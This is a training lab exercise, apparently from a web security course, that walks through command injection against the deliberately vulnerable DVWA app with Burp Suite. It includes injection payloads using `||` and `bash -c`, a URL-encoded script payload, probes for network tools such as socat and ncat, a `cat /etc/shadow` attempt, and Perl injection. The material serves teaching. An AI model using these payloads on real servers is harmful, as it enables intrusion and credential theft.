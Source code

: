 # Extracting Errors

In this exercise, you'll use `2>&1` to creat a template payload and collect additional information from the server.

---
## Instructions
- Click the **Command Injection** vulnerability in the left navigation bar.

### Error Information
- Enable Foxy Proxy, launch Burp Suite, and intercept a request through the IP address form.

- Send the request to Intruder, and set a position around the command. Include `2>&1` in your payload, and encode any characters that require encoding.

- Set payloads to extract the following information:
  - The version of PHP, Python, Perl, and Ruby installed (_each is a separate payload_)
  - Whether `curl`, `wget`, `socat`, and `ncat` are installed (_each is a separate payload_)
  - The contents of `/etc/shadow`
  - Be sure to automatically flag tools that aren't installed.
  > **Solution**
  > ```bash
  > # The version of PHP, Python, Perl, and Ruby installed (_each is a separate payload_)
  > php --version
  > python --version
  > perl --version
  > ruby --version
  > # Whether `curl`, `wget`, `socat`, and `ncat` are installed (_each is a separate payload_)
  > curl --version
  > wget --version
  > socat --version
  > ncat --version
  > # The contents of `/etc/shadow`
  > cat /etc/shadow
  > ```

- Answer the questions below.
  - Why can't you read `/etc/shadow`? 
  - Which network tools are installed?
  - Which programming languages are installed?
  > **Solutions**
  >   - Note that `/etc/shadow` is not visible due to a permissions error.
  >   - Only `socat` is installed.
  >   - PHP and Perl are installed.

### Injecting Code
Note that Perl, PHP, and bash are installed.

These can all be used to run scripts and run code, as you've already achieved with your PHP webshell. In the next section, you'll see how to use bash and Perl to execute arbitrary code on the server.

- Navigate to the **Command Injection** page in DVWA, and enter: `bad || bash -c 'echo "hello"'`. Note that this prints `hello`, indicating that `echo` got executed.
  - This is because `-c` means: "Run the following string as code."
  - **Be sure to use the right quotes**—i.e., single quotes on the argument to bash: `bash -c 'COMMAND'`. **This is important**.

- Resend and intercept the above request, and send it to Repeater.

- Set up a "template" for your injection. It should look like the below, **but with `&` and spaces encoded**. Be sure to include the stderr redirect.
  - `ip=bad || bash -c 'COMMAND' 2>&1&Submit=submit`
  > **Solution**: The POST body looks like: `ip=bad+||+bash+-c+%27COMMAND%27+2>%261&Submit=submit`.

- Next, open [testscript.sh](testscript.sh). This is a simple bash script that prints the numebrs 1-10 to a file. 
  - This script isn't interesting in and of itself, but if you can exploit the injection vulnerability to get it to run on the server, you'll be able to do a lot more than run single commands at a time.

- Copy `testscript.sh` to your clipboard with `Ctrl + C`. Then, in Burp, click the **Decoder** tab (two tabs to the right of **Repeater**).

- Paste the contents of `testscript.sh` into the top pane. On the right navigation bar; click **Encode as**; and select **URL**. This prints the URL-encoded version of the script in the bottom pane. You can send this encoded version through an HTTP request!
  > **Solution**: The encoded script is below.
  > ```bash
  > %66%6f%72%20%4c%49%4e%45%20%69%6e%20%24%28%73%65%71%20%30%20%31%30%29%0a%64%6f%0a%20%20%65%63%68%6f%20%22%50%72%69%6e%74%69%6e%67%20%6c%69%6e%65%20%24%4c%49%4e%45%20%66%72%6f%6d%20%61%20%73%63%72%69%70%74%20%28%21%29%22%20%3e%3e%20%68%61%63%6b%65%72%5f%6c%6f%67%0a%64%6f%6e%65%0a
  > ```

- Return to Repeater. Find `COMMAND` in your template. Replace it with the URL-encoded script.

- Press **Go**, and wait for the response to come back. You should get no output.

- Use Repeater to inject `cat hacker_log`, and note what you see.
  > **Solution**: You'll notice a new file with all ten lines printed—you successfully ran a "complex" shell script through an HTTP request!

### Injecting Perl
You can use a similar trick to inject Perl code.

Use Repeater to send the following payload:
  `bad || perl -e "print 'haxxed'"`

Note that this does the same thing as `bash -c`.

You are, of course, _not_ expected to know or learn Perl. But it's good to be aware that this kind of injection is possible, as it comes installed on most Linux distributions.
